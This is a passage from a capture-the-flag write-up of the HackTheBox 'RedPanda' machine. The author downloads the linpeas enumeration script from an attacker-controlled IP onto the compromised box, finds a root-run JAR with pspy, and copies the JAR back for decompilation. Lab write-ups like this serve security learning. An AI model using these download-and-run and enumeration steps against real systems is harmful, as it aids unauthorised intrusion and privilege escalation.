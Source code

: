 
```
woodenk@redpanda:/home/woodenk$ wget 10.10.16.2/linpeas.sh
wget 10.10.16.2/linpeas.sh
--2023-01-24 06:13:17--  http://10.10.16.2/linpeas.sh
Connecting to 10.10.16.2:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 777018 (759K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh          100%[===================>] 758.81K   680KB/s    in 1.1s    

2023-01-24 06:13:19 (680 KB/s) - ‘linpeas.sh’ saved [777018/777018]

woodenk@redpanda:/home/woodenk$ chmod +x linpeas.sh
chmod +x linpeas.sh

```
I couldn't find any useful result from linpeas. So, then, I ran [pspy](https://github.com/DominicBreuker/pspy) to monitor the processes ran on the machine and I found something interesting here. 

![rp-8](https://user-images.githubusercontent.com/87711310/214227654-bc642244-10aa-4c41-8096-3d43cee680ae.png)

When using `pspy`, I noticed once in a while, a JAR file will be executed by root.

```
woodenk@redpanda:/tmp$ ./pspy64
...
2022/07/12 08:22:01 CMD: UID=0    PID=16166  | java -jar /opt/credit-score/LogParser/final/target/final-1.0-jar-with-dependencies.jar
```


So, I decided to download the file to my machine and check it out. I, simply hosted a server in the directory containing the file and used `wget` command to get the file on my machine
```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/RedPanda]
└─$ wget http://10.10.11.170:9091/final-1.0-jar-with-dependencies.jar
--2023-01-24 09:23:49--  http://10.10.11.170:9091/final-1.0-jar-with-dependencies.jar
Connecting to 10.10.11.170:9091... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1280956 (1.2M) [application/java-archive]
Saving to: ‘final-1.0-jar-with-dependencies.jar’

final-1.0-jar-with-dependencies.jar    100%[============================================================================>]   1.22M   213KB/s    in 8.5s    

2023-01-24 09:23:58 (147 KB/s) - ‘final-1.0-jar-with-dependencies.jar’ saved [1280956/1280956]

```

Then, I used [jd-gui] to view the java (.jar) file

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/RedPanda]
└─$ jd-gui final-1.0-jar-with-dependencies.jar 
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
```
